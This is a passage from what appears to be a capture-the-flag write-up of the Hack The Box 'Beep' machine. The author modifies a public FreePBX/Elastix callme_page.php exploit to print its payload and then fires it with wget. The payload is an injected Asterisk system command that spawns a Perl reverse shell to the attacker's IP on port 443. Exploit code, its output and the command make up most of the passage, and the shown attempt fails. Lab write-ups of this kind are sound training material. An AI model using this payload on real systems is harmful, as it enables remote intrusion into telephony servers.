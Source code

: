```
$ python 18650.py
```
got an error, once again regarding certificate issues...

after a few attempts, I found out that I could use wget to get around the issue, so I changed the python script to print the payload instead of run it
```python
#!/usr/bin/python

import urllib
rhost="10.10.10.7" #beep box ip
lhost="10.10.14.15" #my ip
lport=443
extension="1000"

# Reverse shell payload
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

#urllib.urlopen(url)
print(url)
```
I ran the program again and got the payload
```
$ python 18650.py                                                             
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.15%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A 
```
now for the moment of truth...
```
$ wget --no-check-certificate "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.15%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A" -O payload.html
```
after a few seconds, `payload.html` saved, but nothing on listener...

```html
$ cat payload.html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <TITLE>Voicemail Message Call Me Control</TITLE>
    <link rel="stylesheet" href="../theme/main.css" type="text/css">
    <meta http-equiv="content-type" content="text/html; charset=UTF-8">
  </head>

<table class='voicemail' style='width: 100%; height: 100%; margin: 0 0 0 0; border: 0px; padding: 0px'><tr><td valign='middle' style='border: 0px'></td></tr></table><script language='javascript'>parent.document.getElementById('callme_status').innerHTML = 'The call failed.  Perhaps the line was busy.';</script><script language='javascript'>parent.document.getElementById('pb_load_inprogress').value='false';</script><script language='javascript'>parent.document.getElementById('callme_status').parentNode.style.backgroundColor = 'white';</script>  </body>
</html>
```
call failed... so much for my luck... what is happening? what I am missing here?
the port number is not an issue, so maybe the extension... could be... why 1000?
well, let me try others...
